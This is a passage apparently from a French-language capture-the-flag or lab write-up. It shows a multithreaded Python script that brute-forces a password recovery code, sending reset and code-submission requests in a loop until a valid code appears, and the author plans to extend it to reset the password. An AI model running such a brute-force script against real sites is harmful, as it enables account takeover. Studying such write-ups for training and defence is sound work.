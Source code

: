 ```python
}

# Fonctions pour envoyer les requêtes
def send_reset_password():
    response = requests.post(url, headers=headers, cookies=cookies, data=data_reset_password)
    print("Réinitialisation du mot de passe: ", response.status_code)
    return response

def send_recovery_code():
    response = requests.post(url, headers=headers, cookies=cookies, data=data_recovery_code)
    print("Soumission du code de récupération: ", response.status_code)
    return response

def send_logout():
    response = requests.get(logout_url, headers=headers, cookies=cookies)
    print("Déconnexion: ", response.status_code)
    return response

# Envoi des requêtes
def send_requests():
    compteur = 1
    with ThreadPoolExecutor(max_workers=20) as executor: 
        while True:
            print(f"Requête numéro : {compteur}")
            future_reset = executor.submit(send_reset_password)
            future_recovery = executor.submit(send_recovery_code)
            
            response_reset = future_reset.result()
            response_recovery = future_recovery.result()
            
            if "Invalid or expired recovery code!" not in response_recovery.text and "Time elapsed. Please try again later." not in response_recovery.text:
                print(response_recovery.text)
                break  # Arrêter la boucle

            future_logout = executor.submit(send_logout)
            response_logout = future_logout.result()
            print("Déconnexion: ", response_logout.status_code)
            compteur += 1

if __name__ == "__main__":
    send_requests()
```

On peut voir ainsi, que lorsque le code de récupération est correct, le site nous demande d'entrer un nouveau mot de passe et de le confirmer. Qu'attendons-nous alors ? Maintenant qu'on a cette information, on va modifier très légèrement notre code Python pour qu'en plus d'afficher la réponse lorsqu'il trouve le code, qu'il envoie aussi une requête pour changer le mot de passe.
Bon et bien plus qu'à attendre une autre dizaine de minutes...
![Image](https://media.discordapp.net/attachments/1313520626299961344/1317706423127375923/image.png?ex=676051fd&is=675f007d&hm=63d314ebfef2806883e49c0c3a3937cf35b5a62f1a7cc7834c32a3009002912a&=&format=webp&quality=lossless&width=1177&height=662){: .normal width="600" height="600" }

